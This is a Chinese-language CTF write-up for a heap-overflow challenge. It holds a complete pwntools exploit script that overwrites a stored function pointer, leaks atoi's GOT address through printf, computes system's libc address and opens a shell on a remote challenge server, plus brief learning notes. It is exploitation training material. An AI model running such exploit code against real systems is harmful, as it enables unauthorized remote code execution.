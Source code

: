 还是蛮简单的~但是我看到堆溢出就懵逼，没发现那个结构里面存了一个函数指针可以被覆盖~

总之就是覆盖函数指针----调用printf打印某函数地址继而计算libc加载地址----调用system

脚本跟z老师的几乎一样。。因为自己没思路全问他= =

```
from pwn import *
plt_printf=0x400750
got_atoi=0x602070
libc_atoi=0x39f50
libc_system=0x46640
def add():
	p.sendline('1')
	p.recvuntil(':')
	p.sendline('anything')
	p.recvuntil(':')
	p.sendline('1')
	p.recvuntil('Exit.')
	print 'add done'
def edit(id,s):
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(s)
	p.recvuntil('Exit.')
	print 'edit done'
def encrypt(id):
	p.sendline('2')
	print p.recvuntil(':')
	p.sendline(str(id))
	print p.recvuntil('...')
	print 'encryption done'
#p=process('./encrypt')
p=remote('101.200.187.112','9005')
#gdb.attach(p)
p.recv()
for i in xrange(3):
	add()
edit(1,'%s\x00'+'a'*77+p64(got_atoi))
edit(2,'a'*96+p64(plt_printf))
encrypt(1)
d=p.recvuntil('\x7f')[1:].ljust(8,'\x00')
atoi=u64(d)
print '[+] atoi:'+hex(atoi)
system=atoi-libc_atoi+libc_system
print p.recvuntil('Exit.')
edit(1,'a'*96+p64(system))
edit(0,'/bin/sh\x00')
encrypt(0)
p.interactive()
```
感觉有几点需要注意的  
1. 调用函数的时候用它的plt地址，而打印内存地址是用got的  
2. 出现玄学bug的话就用recvuntil  
3. 这串东西大概是格式化内存地址的标准代码吧，以后还可以用  
```
d=p.recvuntil('\x7f')[1:].ljust(8,'\x00')
atoi=u64(d)
print '[+] atoi:'+hex(atoi)
```
感觉难度不高用时有点长啊= =
